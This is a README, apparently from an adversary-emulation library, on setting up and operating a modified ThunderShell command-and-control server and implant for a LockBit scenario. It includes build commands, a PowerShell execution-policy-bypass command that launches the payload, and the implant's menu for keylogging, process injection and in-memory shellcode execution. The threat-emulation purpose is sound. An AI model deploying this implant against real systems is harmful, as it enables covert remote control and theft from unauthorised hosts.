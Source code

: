 # Thundershell

The original Mr-Un1k0d3r's Thundershell can be found at: <https://github.com/Mr-Un1k0d3r/ThunderShell/tree/master>

- Adopted at [commit ca9c7511725a23a5ccd47b288ce059377f1c5c5c](https://github.com/Mr-Un1k0d3r/ThunderShell/tree/ca9c7511725a23a5ccd47b288ce059377f1c5c5c)
- The original license can be found [here](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/LICENSE.md)
- The original README can be found [here](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/README.md)

Modifications:

- RC4 encryption removed from [server](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/core/httpd.py) and [payload](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/master/data/payloads/stager.cs)
- Connection objected updated to `http.server.ThreadingHTTPServer` [1](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/ca9c7511725a23a5ccd47b288ce059377f1c5c5c/core/httpd.py#L25), [2](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/ca9c7511725a23a5ccd47b288ce059377f1c5c5c/core/httpd.py#L214)

## Usage

This section will detail Thundershell's usage in regards to the LockBit scenario. For more information about the usage of Thundershell, see the original Wiki pages:

- [Home page wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Home)
- [Using Thundershell wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Using-Thundershell)
- [Features wiki](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Features)

**From your Kali terminal:**

1. Navigate to the ThunderShell folder and start the redis server

    ```cmd
    redis-server
    ```

1. In a separate terminal, navigate to the ThunderShell folder and start the Thundershell server

    ```cmd
    python3.7 ThunderShell.py default.json <username>
    ```

    You should see the following output:

    ```cmd
                .#"    =[ ThunderShell version 3.1.2 | RingZer0 Team ]=
            .##"
            .###"       __       __    _________    __            __
        ###P        ###|     ###|  ##########|  ###|          ###|
        d########"    ###|     ###|  ###|         ###|          ###|
        ****####"     ###|_____###|  ###|__       ###|          ###|
        .###"       ############|  ######|      ###|          ###|
        .##"         ###|     ###|  ###|         ###|          ###|
        .#"           ###|     ###|  ###|______   ###|_______   ###|_______
        ."             ###|     ###|  ##########|  ###########|  ###########|


            
    [*] Current active CLI session UUID is 174bd47d-be50-4849-9176-07d03b73c148
    [*] Web GUI Started: http://10.100.0.70:13337
    [*] Web GUI Password: passw0rd!
    [*] Starting web server on 10.100.0.70 port 8080
    ```

1. Run `help` to see possible commands.

    ```cmd
    Help Menu
    =========

    Commands    Args                                  Descriptions
    ----------  ------------------------------------  --------------------------------------------------------------------------------------------
    list        full                                  List all active shells
    interact    id                                    Interact with a session
    show        (password,key,error,http,event) rows  Show server password, encryption key, errors, http or events log (default number of rows 10)
    kill        id                                    kill shell (clear db only)
    os          command                               Execute command on the system (local)
    purge       force                                 WARNING! Delete all the Redis DB
    exit                                              Exit the application
    help                                              Show this help menu
    ```

1. Run `interact <id>` to interact with an active session. Run `help` to see possible commands for the payload.

    ```cmd
    (Main)>>> interact 1

    (BRAVO SABER\drstrange)>>> help
    Help Menu
    =========
    _Commands    __Args                       ___Descriptions
    -----------  ---------------------------  ------------------------------------------------------------
    background                                Return to the main console (CLI only)
    fetch        path/url, cmd                In memory execution of a script and execute a command
    exec         path/url                     In memory execution of code (shellcode)
    read         remote path                  Read a file on the remote host
    upload       path/url, path               Upload a file on the remote system
    ps                                        List processes
    inject       pid, command                 Inject command into a target process (max length 4096)
    keylogger    number of line (default 20)  Show last n line of keystrokes captured
    alias        key, value                   Create an alias to avoid typing the same thing over and over
    delay        milliseconds                 Update the callback delay
    shell        command                      Run command by spawning cmd.exe /c
    screenshot                                Take a screenshot
    help                                      show this help menu

    List of built in aliases
    ------------------------
    wmiexec                     Remote-WmiExecute utility
    searchevent                 Search-EventForUser utility


    List user defined aliases
    --------------------------

    ```

1. Task the Thundershell payload with commands from the session shell:

    ```cmd
    (BRAVO SABER\drstrange)>>> whoami


    (BRAVO SABER\drstrange)>>> 

    [*] drstrange - Sending command: whoami

    (BRAVO SABER\drstrange)>>> 

    [*] Command output:
    saber\drstrange
    ```

**From your Windows host:**

1. To dynamically compile and download the payload from the Thundershell server, navigate to the Web GUI in your browser and sign in with your username and password (GUI url and password printed in command line shell).

1. In the left hand menu select the `Payloads` tab. In the pop up, set the callback address and payload type. Click confirm and verify the payload was downloaded to your `Downloads` folder.

1. Run the payload. To run the powershell payload run the following:

    ```cmd
    powershell -exec bypass import-module .\<file>.ps1
    ```

    You should see the registration in the terminal or `Sessions` tab of the Web GUI.

    ```cmd
    (Main)>>> 
    [+] Registering new shell BRAVO SABER\drstrange
    [+] New shell ID 1 GUID is qs6fUeQ7XzqnTSg3
    [+] Running auto commands on shell SABER\drstrange
            [+] whoami
            [+] screenshot


    (Main)>>> list full
    List of active shells
    ---------------------

    1     BRAVO SABER\drstrange qs6fUeQ7XzqnTSg3 last seen 2024-04-11 15:10:44
    ```

## Build Instructions

The following steps will walk through the setup of the build environment. Thundershell has to be run with python3.7 to accomodate for out of date dependencies. Follow the steps listed [here](https://tecadmin.net/install-python-3-7-on-ubuntu-linuxmint/) to install python3.7 if it is not already installed.

**From your Kali host:**

1. Install dependencies

    ```cmd
    sudo apt install -y mono-mcs redis-server
    ```

1. Navigate to the ThunderShell directory in `LockBit/Resources/ThunderShell`

    ```cmd
    cd LockBit/Resources/ThunderShell/
    ```

1. Enter root shell

    ```cmd
    sudo su
    ```

1. Install Thundershell dependencies

    ```cmd
    python3.7 -m pip install -r requirements.txt
    ```

1. Update the [default.json](https://github.com/Mr-Un1k0d3r/ThunderShell/blob/ca9c7511725a23a5ccd47b288ce059377f1c5c5c/default.json) file with the correct values (server, port, etc.)

1. Start the redis server

    ```cmd
    redis-server
    ```

1. Start the Thundershell server

    ```cmd
    python3.7 ThunderShell.py default.json <username>
    ```

For more information about starting the Thundershell server see [here](https://github.com/Mr-Un1k0d3r/ThunderShell/wiki/Home).

## CTI Reporting

1. <https://isec.ne.jp/wp-content/uploads/2017/10/52ThunderShell.pdf>
1. <https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-165a>
